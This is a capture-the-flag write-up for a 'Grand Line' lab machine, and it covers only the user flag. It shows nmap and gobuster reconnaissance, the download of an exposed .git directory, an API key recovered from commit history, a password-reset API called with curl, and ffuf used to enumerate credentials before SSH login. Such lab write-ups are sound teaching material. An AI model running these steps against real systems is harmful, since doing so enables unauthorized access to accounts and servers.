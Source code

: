 # CTF: Grand Line

![Difficulty: Medium](https://img.shields.io/badge/difficulty-medium-%23ffcc00)
![Contest Date: 2024-05-14](https://img.shields.io/badge/contest%20date-2024--05--14-informational)
![Category: FTP, Hash, Crontab, SSH Key](https://img.shields.io/badge/category-ftp,hash,crontab,sshkey-%237159c1)
![By: Alexandre & Eloi](https://img.shields.io/badge/by-Alexandre%20%26%20Eloi-%23f9a03c)  
![alt text](img/grandline.png)
## Description

> I am going to be the pirate king!

## Write-up

Reference to the anime "One Piece". We have to find the user and root flag.

UserFlag: user.txt  
RootFlag: root.txt

## Flag Solutions

### User Flag

First thing to do is to check open ports on the target machine. We can do this by running a port scan using `nmap`.

```bash
nmap -sSV $IP
```

Results : 
```bash
PORT   STATE SERVICE VERSION

22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)

80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))

8081/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)

MAC Address: 02:85:B5:9A:69:1F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have three open ports, 22, 80 and 8081. Let's check the web server on port 80.

```bash
http://$IP
```

![alt text](img/grandline1.png)

We found a page who said 'have you tried the other port ?'. Let's check the web server on port 8081.

We can go to the web server on port 8081.

```bash
http://$IP:8081
```

We have a flask web server running on port 8081. We have buttons to navigate to different pages.   
We can go to /login and have a page "forgot password" with a button to reset the password.

When we go we have a form to reset the password. We can try to reset the password with a random username like `luffy`.

![alt text](img/grandline2.png)

A request was sent but the page refreshes and nothing happens. We can retry the same request with a random username like `luffy` and check the network tab in the browser console.

We can see a POST request to `/api/luffy` with a response `Invalid API Key`.

In the form-data, we can see a `key` field with a value `NULL`

So we know we have to found an API key to reset the password.

After that, let's check with a `gobuster` if we can find any hidden directories.

```bash
gobuster dir -u http://$IP:8081 -w /usr/share/wordlists/dirb/common.txt
```

Results : 
```bash
/lost
```

We found a hidden directory `/lost`. Let's check the web server on port 8081 with the path `/lost`.

```bash
http://$IP:8081/lost
```

Find a `note.txt` file with the following content:

```bash
You're stubborn, I told you everything is on the other port, have you tried nmap ?
```

We can try other `gobuster` scan on port 8081 and `/lost` directory.

```bash
gobuster dir -u http://$IP:8081/lost -w SecLists/Discovery/Web-Content/raft-large-extensions-lowercase.txt
```

Results : 
```bash
.git
```

We found a hidden directory `/.git`. Let's check the web server on port 8081 with the path `/.git`.

```bash
http://$IP:8081/.git
```

We have to download the `.git` directory to extract the source code. We can use `gitdumper.sh` to download the `.git` directory.

```bash
wget --recursive http://<IP>/lost/.git -q
```

We can use `gitdumper.sh` to download the `.git` directory.

```bash
cd <IP>/lost
git log
```

We can see the commit history with filtered commit add and delete files.

```bash
git log --patch > keys
cat keys | grep "key"
-    if(data['key']=='<KEY>'):
-    xhttp.send('{"key":"NULL"}')       //Removed the API Key to stop the forget password functionality 
+    if(data['key']=='<KEY>'):
+    xhttp.send('{"key":"NULL"}')       //Removed the API Key to stop the forget password functionality 
```

We can see the key in the commit history. We can use this key to reset the password.

```
curl -X POST http://10.10.215.247:8081/api/luffy -H "Content-Type: application/json" -d '{"key":"<KEY>"}'
{"username":"luffy","password":"ThisIsNotMyPassword"}
```

It's not the password but we can try to brute force to find the correct user password.

We can use `fuff` to brute force the password.

```bash
ffuf -w names.txt -u http://<IP>:8081/api/FUZZ -X POST -H "Content-Type: application/json" -d '{"key":"<KEY>"}' -fr "error" -fs 16
{"username":"<USERNAME>","password":"<PASSWD>"}
```



We found the password and username. We can connect to ssh with credentials. After connecting to the ssh we can find the user flag.

**Well done! You found the user flag!**


